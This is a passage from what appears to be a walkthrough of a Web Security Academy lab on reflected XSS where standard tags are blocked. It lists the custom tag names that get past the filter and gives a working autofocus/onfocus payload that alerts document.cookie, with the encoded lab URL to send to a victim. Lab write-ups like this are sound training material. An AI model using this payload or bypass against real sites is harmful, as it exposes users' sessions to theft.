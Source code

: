 ![Tag test](https://github.com/user-attachments/assets/b33240e1-4df0-499f-9489-0c57a0ce1e49)

The following tag names are accepted:

* `animatetransform`
* `animatemotion`
* `custom tags`
* `animate`
* `iframe2`
* `audio2`
* `image2`
* `image3`
* `input2`
* `input3`
* `input4`
* `video2`
* `img2`
* `set`
* `a2`

Example:

![Custom tags](https://github.com/user-attachments/assets/6d55c811-e251-484c-a056-6df6a031ae07)

---

## Step 4: Executing XSS with Autofocus + onfocus

We use the following payload to trigger a pop-up using `autofocus` and `onfocus`:

```html
<xss autofocus tabindex=1 onfocus=alert(document.cookie)></xss>
```

Encoded URL:

```
https://0a69008d036aebe780944ee10019004a.web-security-academy.net/?search=%3Cxss+autofocus+tabindex%3D1+onfocus%3Dalert%28document.cookie%29%3E%3C%2Fxss%3E
```

Payload in action:

![Alert on focus](https://github.com/user-attachments/assets/3184d4ae-450a-45ac-89ef-799f579bce0a)

---

## Final Step: Deliver to Victim

Deliver the crafted exploit link to the victim. When they visit the page, the malicious payload will execute and the lab will be marked as solved.

---

